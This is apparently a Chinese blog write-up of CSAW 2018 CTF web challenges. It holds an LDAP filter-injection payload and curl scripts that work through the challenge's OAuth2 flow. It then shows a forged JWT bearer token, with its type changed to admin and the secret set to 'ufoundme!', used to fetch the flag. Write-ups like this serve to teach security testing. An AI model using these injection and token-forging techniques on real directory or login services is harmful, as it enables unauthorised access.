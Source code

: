 ```yaml
---
title: casw-2018
abbrlink: 42373
date: 2018-09-18 08:44:02
tags:
---
```


# Web

## ldab

ldap注入

参考链接:

* https://www.cnblogs.com/r00tgrok/p/LDAP_INJECTION_AND_PREVENTION.html
* http://www.4hou.com/technology/9090.html

正常语法：

`(&(cn=s*)(|(sn=d*)(sn=r*))`

payload:`*)(|(ou=*`

## SSO

首先获取`auth code`:

```shell
cl_id=1
echo "POST http://web.chal.csaw.io:9000/oauth2/authorize"
auth_key=$(curl --silent 2>&1 -X POST  http://web.chal.csaw.io:9000/oauth2/authorize --data "response_type=code&client_id=${cl_id}&redirect_uri=http://web.chal.csaw.io:9000/oauth2/token&state=123" | awk -v FS="code=|&amp;state" '{print $2}')
echo "Getting Authorization Code : ${auth_key}"
```

通过`auth code`获取`token`:

```shell
echo "POST http://web.chal.csaw.io:9000/oauth2/token (using this Authorization Code"
token=$(curl --silent 2>&1 -X POST  http://web.chal.csaw.io:9000/oauth2/token --data "grant_type=authorization_code&code=${auth_key}&client_id=${cl_id}&redirect_uri=http://web.chal.csaw.io:9000/oauth2/token")
echo "Getting Json Response : ${token}"
```

得到`token`，通过`jwt.io`解密,然后将`type`修改为`admin`,密码设置为`ufoundme!`:

![](/home/tianji/Desktop/TIM截图20180918172748.png)

> s}ht@DESKTOP-GUA7PSI:/mnt/d/Program Files/cmder_mini$ curl  http://web.chal.csaw.io:9000/protected -H "Authorization: Bearer JhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcyNjI3NjYsImV4cCI6MTUzNzI2MzM2Nn0.VNm-jOfhxfza8W8RpC7sr-zUDPtXBdfI4XkT1CCdS34" | grep -Eo "flag{.*}"
